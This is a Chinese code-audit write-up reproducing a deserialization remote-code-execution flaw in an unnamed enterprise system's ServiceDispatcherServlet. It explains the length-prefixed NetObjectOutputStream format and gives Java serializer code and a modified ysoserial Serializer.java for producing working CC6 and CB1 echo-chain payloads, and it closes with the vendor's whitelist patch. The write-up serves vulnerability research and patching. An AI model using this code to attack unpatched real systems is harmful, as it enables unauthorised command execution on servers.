# 奇安信攻防社区-【代码审计】某系统反序列化漏洞复现及分析

### 【代码审计】某系统反序列化漏洞复现及分析

某Clound系统公开并修复了很多反序列化漏洞，大多反序列点是直接对用户输入的序列化数据执行反序列化操作，并结合系统中存在的反序列利用链，攻击者可以进行命令执行。 本次的起因是通过公开的漏洞路径复现时，发现无法直接使用ysoserial工具生成的payload进行利用。与之前的反序列化漏洞情况不同，需要找找原因。如有疏漏，欢迎大佬指正包涵。

某Clound系统公开并修复了很多反序列化漏洞，大多反序列点是直接对用户输入的序列化数据执行反序列化操作，并结合系统中存在的反序列利用链，攻击者可以进行命令执行。  
本次的起因是通过公开的漏洞路径复现时，发现无法直接使用ysoserial工具生成的payload进行利用。与之前的反序列化漏洞情况不同，需要找找原因。如有疏漏，欢迎大佬指正包涵。

## ServiceDispatcherServlet反序列化漏洞分析

公开的漏洞路径为`/ServiceDispatcherServlet`  


## 路由分析

在WEB-INF目录下，找到漏洞路径对应的服务名称为`CommonServletDispatcher`  
  
继续浏览该文件，通过服务名找到映射的类`nc.bs.framework.comn.serv.CommonServletDispatcher`  
  
经过耐心的搜索查找，在`fw.jar`文件中找到对应的类文件。  
  
阅读类文件中源码，发现事情果然没有辣么简单。  
在服务初始化时，会通过反射调用的方式，调用web.xml文件中的初始化参数service所对应的类`nc.bs.framework.comn.serv.ServiceDispatcher`，并将类实例化赋给`serviceHandler`，方便后面调用。  
  
  
看看之后操作，还是在`CommonServiceDispatcher`中，存在`doGet`方法对传递进来的get请求处理。  
  
此处，就是前面的`serviceHandler`实例出场，调用`ServiceDispatcher`类中的`exeCall`方法对请求数据进行处理。  
  
当然，还存在`doPost`方式，但同样调用`doGet`方法对请求数据进行处理。  


## 反序列化利用失败原因分析

后面就需要进一步跟进`ServiceDispatcher`类中的代码，看看对请求数据的处理流程。  
还好`ServiceDispatcher`和`CommonServiceDispatcher`就在同路径下，得来全不费工夫。  
跟进`ServiceDispatcher`类中，优先看看这个`execCall`方法，发现对请求中的数据使用`readObject`方法进行处理。  
  
之前的反序列化漏洞如下面的代码片段所示，是直接对请求包中数据调用对象输入流的readObject方法。而`ServiceDispatcher`类中的不同点就是它使用了自己的`readObject`方法对请求包中的数据进行处理，因此还需要继续跟进该方法。

```php
.......
ObjectInputStream ois = new ObjectInputStream(request.getInputStream());
Object input = ois.readObject();
......
```

找到`ServiceDispatcher`类中`readObject`方法。前面部分的代码比较难理解具体作用，但能看出来是对传入的数据进行转化、分解和检测操作的。先根据传入信息创建对应长度的空字节数组，之后读取该长度的信息到字节数组中。  
重点是最后else中的部分，会将对字节数组使用`NetObjectInputStream`进行readObject反序列化  
  
这里肯定会比较好奇`NetObjectInputStream`的作用，其实它就是继承自`ObjectInputStream`实现的自定义的序列化类，因此同样存在反序列时自动调用的问题。  
  
但是想要进入else到达这个触发点，还存在障碍。因为if判断会对传入的数据进行合法性检测。经过调试发现，直接使用ysoserial工具生成序列化数据就是因为这个原因无法正常反序列化，导致反序列化利用失败。

## 问题解决

经过代码调试和一系列错误的序列化数据构造尝试后，最终发现原来`ServiceDispatcher`类中`readObject`方法对传入的序列化数据前4个字节格式有要求。同时，还需要使用自定义的序列化类`NetObjectOutputStream`来生成序列化数据。  
  
  
在客户端的jar包文件中可以找到使用自定义的序列化类`NetObjectOutputStream`来写入序列化数据并向服务端发送。  
  
跟进一下`NetObjectOutputStream`类的`writeObject`方法。  
  
参考上述`writeObject`代码，编写序列化方法。在`NetObjectOutputStream`类序列化对象输出流后，在前面添加对象输出流大小移位操作后的字节数组，这样就能保证序列化数据能顺利通过if-else判断进入反序列化操作。

```php
public static void serialize(Object obj) throws IOException {
    // 创建一个字节数组输出流
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    // 创建一个对象输出流
    NetObjectOutputStream oos = new NetObjectOutputStream(baos);
    oos.writeObject(obj);
    oos.finish();
    oos.flush();
    // 获取字节数组
    byte[] bytes1 = {(byte) ((baos.size() >>> 24) & 255), (byte) ((baos.size() >>> 16) & 255), (byte) ((baos.size() >>> 8) & 255), (byte) ((baos.size() >>> 0) & 255)};
    byte[] bytes2 = baos.toByteArray();
    // 将字节数组转换为十六进制字符串并输出
    String hexString1 = DatatypeConverter.printHexBinary(bytes1);
    String hexString2 = DatatypeConverter.printHexBinary(bytes2);
    System.out.println(hexString1+hexString2);
}
```


## 漏洞复现

编写DNSURL链进行反序列化点的探测，序列化方法使用上面提供代码即可。注意一定要引入对应系统版本的依赖包`fw.jar`和`basic.jar`，否则生成的序列化数据可能会无法成功反序列化。  
  
输出十六进制字符串payload  
  
利用Yakit十六进制解码功能标签构造数据包，成功触发dnslog的请求，探测到该反序列化点可用。（本文后面使用的发包测试工具均为[Yakit](https://www.yaklang.com/products/outofdate/quickstart/)）  
  


### CC6链测试

该系统依赖中，发现有用到commons-collections 3.2.1，则可以通过CC链达到命令执行目的。  
  
因为版本缘故，对多条CC链进行测试，成功利用CC6链进行远程命令执行。  
  


### 回显链测试

虽然可以进行远程命令执行，但是CC6链使用起来还是不方便，就进一步测试能否找到可用的回显链。  
尝试构造CC6的回显链暂未成功，还有待继续跟进学习。  
但经过对比测试，该系统依赖中正好也发现commons-beanutils 1.8.0，则可以使用CB1利用链进行远程命令执行。  
  
回显的话，还需要收集框架或者中间件信息，方便确定回显链。这里看到该系统使用了Tomcat中间件。  
通过学习相关文档及测试开源代码，最终利用Y4er师傅开源的`CommonsBeanutils183NOCC`和`TomcatCmdEcho`回显链测试成功。项目地址：[Y4er/ysoserial](https://github.com/Y4er/ysoserial)  
因为该项目是针对常见的序列化方式进行开发的，为了满足本次漏洞的利用，需要对项目中序列化部分的代码进行修改。主要是使用自定义的序列化类`NetObjectOutputStream`生成序列化数据，并在头部添加数据大小的移位字节。修改的Serializer.java内容如下：

```php
package ysoserial;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.io.OutputStream;
import java.util.concurrent.Callable;

import nc.bs.framework.comn.NetObjectOutputStream;
import javax.xml.bind.DatatypeConverter;

public class Serializer implements Callable<byte[]> {
    private final Object object;

    public Serializer(Object object) {
        this.object = object;
    }

    public static byte[] serialize(final Object obj) throws IOException {
        final ByteArrayOutputStream out = new ByteArrayOutputStream();
        serialize(obj, out);

        byte[] bytes1 = {(byte) ((out.size() >>> 24) & 255), (byte) ((out.size() >>> 16) & 255), (byte) ((out.size() >>> 8) & 255), (byte) ((out.size() >>> 0) & 255)};
        byte[] bytes2 = out.toByteArray();
        // 将字节数组转换为十六进制字符串并输出
        String hexString1 = DatatypeConverter.printHexBinary(bytes1);
        String hexString2 = DatatypeConverter.printHexBinary(bytes2);
        System.out.println(hexString1+hexString2);

        return out.toByteArray();
    }

    public static void serialize(final Object obj, final OutputStream out) throws IOException {
//        final ObjectOutputStream objOut = new ObjectOutputStream(out);
        final NetObjectOutputStream objOut = new NetObjectOutputStream(out);
        objOut.writeObject(obj);
        objOut.finish();
        objOut.flush();
    }

    public byte[] call() throws Exception {
        return serialize(object);
    }
}
```

在项目main目录下编写测试文件，调用CB1Tomcat回显链生成序列化数据。  
  
成功触发回显命令执行  


## 漏洞修复

下载官方的补丁包即可修复。补丁是在`NetObjectInputStream`类的构造方法中增加了 InvocationInfo.class、ESBContextForNC.class 两个白名单限制类，来限制恶意的数据反序列化。

参考文章  
[https://www.4hou.com/posts/nJnl](https://www.4hou.com/posts/nJnl)  
[https://blog.csdn.net/qq\_41904294/article/details/134277353](https://blog.csdn.net/qq_41904294/article/details/134277353)
